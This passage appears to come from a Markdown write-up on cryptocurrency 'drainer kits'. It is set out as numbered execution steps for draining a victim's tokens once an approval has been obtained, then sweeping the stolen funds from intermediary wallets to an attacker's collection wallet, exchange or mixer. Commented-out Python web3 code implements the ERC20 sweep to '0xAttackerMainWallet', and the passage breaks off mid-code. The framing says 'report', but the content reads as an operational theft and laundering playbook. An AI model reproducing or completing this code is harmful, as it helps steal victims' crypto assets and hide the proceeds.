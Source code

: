         #     # handle_drain_tx_monitoring(sent_tx_hash)
        #     pass # Placeholder for actual drain logic
        ```
    *   **Functionality:** Executes the necessary steps to transfer assets from the victim using the newly acquired approval.
    *   **Data Flow:** Uses victim address, token address, approved amount. Interacts with the blockchain to send transactions.
    *   **Report Reference:** Automation of draining is a key feature of efficient drainer kits.

### 3.4. Fund Consolidation (Sweeping)

*   **Execution Step 4: Periodically Sweep Funds from Intermediary Wallets.**
    *   **Logic:** Drainers often use multiple intermediary wallets to receive funds initially. Automation scripts can be used to periodically check the balances of these wallets and transfer (sweep) any accumulated assets (ETH, tokens) to a main collection wallet, often a centralized exchange deposit address or a privacy-focused wallet/mixer.
    *   **Code Concept (Report Implication - Python):**
        ```python
        # Conceptual: Sweeping ERC20 tokens from an intermediary wallet
        # INTERMEDIARY_WALLET_PK = "..." # PK for an intermediary wallet
        # INTERMEDIARY_WALLET_ADDRESS = w3.eth.account.from_key(INTERMEDIARY_WALLET_PK).address
        # FINAL_COLLECTION_WALLET = "0xAttackerMainWallet"

        # def sweep_erc20_from_intermediary(token_address):
        #     # erc20_contract = w3.eth.contract(address=token_address, abi=ERC20_ABI_MINIMAL)
        #     # balance = erc20_contract.functions.balanceOf(INTERMEDIARY_WALLET_ADDRESS).call()
        #     # if balance > 0:
        #     #     print(f"Sweeping {balance} of token {token_address} from {INTERMEDIARY_WALLET_ADDRESS}")
        #     #     nonce = w3.eth.get_transaction_count(INTERMEDIARY_WALLET_ADDRESS)
        #     #     tx_params = { "from": INTERMEDIARY_WALLET_ADDRESS, "gas": ..., "gasPrice": ..., "nonce": nonce }
        #     #     transfer_tx = erc20_contract.functions.transfer(FINAL_COLLECTION_WALLET, balance).build_transaction(tx_params)